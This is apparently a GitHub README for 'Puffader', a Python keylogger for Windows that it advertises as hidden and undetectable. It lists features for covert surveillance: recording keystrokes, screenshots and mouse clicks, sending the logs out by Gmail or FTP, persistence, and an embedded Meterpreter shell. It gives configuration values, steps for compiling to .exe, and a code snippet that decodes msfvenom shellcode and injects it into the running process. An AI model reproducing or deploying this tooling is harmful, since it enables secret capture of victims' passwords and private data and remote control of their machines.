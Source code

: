 [![Build status](https://ci.appveyor.com/api/projects/status/5tc6085mmmw6rym8?svg=true)](https://ci.appveyor.com/project/xp4xbox/puffader)
# Puffader
Puffader is an opensource, hidden and undetectable keylogger for windows written in Python 2.7 which can also capture screenshots and mouse window clicks.

## Installation
Puffader Requires:
* [Python 2.7](https://www.python.org/downloads)
* [Pyhook](https://sourceforge.net/projects/pyhook/files/pyhook/1.5.1/)
* [Pywin32](https://sourceforge.net/projects/pywin32/files/pywin32/)
* [PyAutoGui](https://pypi.python.org/pypi/PyAutoGUI)

Please refer to the [wiki](https://github.com/xp4xbox/Puffader/wiki/Installing-Prerequisites) for more information on installing prerequisites.

The program can be downloaded via github or git eg.
```git clone https://github.com/xp4xbox/Puffader```

## Features
Currently Puffader has several features such as:
* Ability to send logs to any gmail account.
* Ability to send logs via ftp
* Ability to capture screenshots
* Ability to store logs locally
* Ability to configure log size before sending
* Ability to send logs at timed intervals
* Ability to control how you want the backspace key to be outputed as.
* Ability to stop the program via ctrl-rshift-h.
* Ability to log special characters.
* Ability to embed an undetectable meterpreter shell
* Optional persistence.
* Ability to capture window mouse clicks
* Checking for multiple instances
* And more...

## Quick Usage

1. Open file with idle or any other editor.
2. Modifiy lines `22-45` for your personal preference: eg.
```
strEmailAc = "email@gmail.com"
strEmailPass = "pass"

blnFTP = "False"
strFtpServer = ""
intFtpPort = 21
strFtpUser = ""
strFtpPass = ""
strFtpRemotePath = "/"

intCharPerSend = 1000

blnUseTime = "False"
intTimePerSend = 120

blnStoreLocal = "True"
strLogFile = "c:/temp/test.txt"

blnLogClick = "True"
blnBackRemove = "True"

blnScrShot = "True"
strScrDir = "c:/temp"
intScrTime = 120
```
> NOTE: For `strScrDir`, be sure to leave out the last `/`.

#### If you plan to send messages via email, be sure to [allow access for less secure apps](https://myaccount.google.com/lesssecureapps) in your gmail account.

For more information please refer to the [wiki](https://github.com/xp4xbox/Puffader/wiki/Usage).

### Compiling Program To .exe

#### Py2Exe (recommmended)
1. Install [Py2Exe](https://sourceforge.net/projects/py2exe/files/py2exe/0.6.9/).
2. Run `python setup.py`

#### cx_Freeze
1. Install cx_Freeze via `pip install cx_freeze`.
2. Run `python cx_freeze_setup.py build`.

Or refer to the [wiki](https://github.com/xp4xbox/Puffader/wiki/Compiling-To-.exe) for more information.

## Adding Meterpreter Plugin

1. Generate raw shellcode using msfvenom (eg. xr8\x02...).
2. Encode the shellcode to base64 by using [this](https://github.com/xp4xbox/Puffader/blob/master/Meterpreter_Plugin/base64encoder.py).
3. Move the [code_injector module](https://github.com/xp4xbox/Puffader/blob/master/Meterpreter_Plugin/code_injector.py) to same dir as the program.
4. Paste in this code after the function to prevent multiple instances. Setting b64shellcode to be your encrypted shellcode.
```
import code_injector, base64
# base64 shellcode
b64shellcode = ""
shellcode = base64.b64decode(b64shellcode)  # decrypt shellcode
pid = os.getpid()  # get current pid

code_injector.InjectShellCode(pid, shellcode)  # inject the shellcode into the program
```
5. Build program with Py2Exe using [setup.py](https://github.com/xp4xbox/Puffader/blob/master/Meterpreter_Plugin/setup.py)

## Help

If you need any help at all, feel free to post a "help" issue.

## Contributing

Contributing is encouraged and will help make a better program. Please refer to [this](https://gist.github.com/MarcDiethelm/7303312) before contributing.

## Disclaimer

This program must be used for legal purposes! I am not responsible for anything you do with it.

## License
[License](https://github.com/xp4xbox/Puffader/blob/master/LICENSE)
